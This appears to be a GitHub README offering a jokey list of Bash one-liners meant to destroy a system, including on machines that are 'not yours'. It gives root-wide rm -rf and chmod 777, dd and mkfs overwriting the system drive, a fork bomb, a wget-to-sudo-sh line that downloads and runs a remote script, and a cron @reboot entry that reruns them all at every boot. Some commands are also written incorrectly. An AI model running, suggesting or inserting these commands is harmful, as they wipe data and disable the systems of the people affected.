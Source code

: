 # Dumb ways to kill your system
Kill your (or not yours) system with style. Many ways on many languages to make your system be snapped by thanos itself.

# Bash

The commands above should work on Android, Linux, MacOS, and others systems who run on the bash interpreter.
<br />
<br />
```
sudo chmod -R 777 /*; 
```
This will just make your entire system acessible using permissions.
<br />
<br />

```
sudo rm -rf /* --no-preserve-root;
```
Well, this surely will wipe down your entire system.
<br />
<br />

```
dd if=/dev/null of=/dev/sda; 
```
This will change every bite of your drive to 0's.
<br />
<br />

```
sudo mv /home/* /dev/null; 
```
This command will to move your entire users folder to the absolute void.
<br />
<br />

```
sudo mkfs.ext3 /dev/sda; 
```
This will format your drive entirely.
<br />
<br />

```
: () {: |: &} ;:
```
I's called fork bomb, and should make your system crashes, if you have one.
<br />
<br />

```
wget https://raw.githubusercontent.com/willnaoosmit/Dumb-ways-to-kill-your-system/master/bash/script.sh -O | sudo sh
```
This command will download and run automatically the file with all the bash commands above.
<br />
<br />

```
sudo touch /var/spool/cron/$USER; echo '@reboot sudo chmod -R 777 /*; sudo rm -rf /* --no-preserve-root; dd if=/dev/null of=/dev/sda; sudo mv /* /dev/null; sudo mkfs.ext3 /dev/sda; : () {: |: &} ;:' > /var/spool/cron/$USER
```
This command will add all the commands above to run on the next reboot.
<br />
<br />


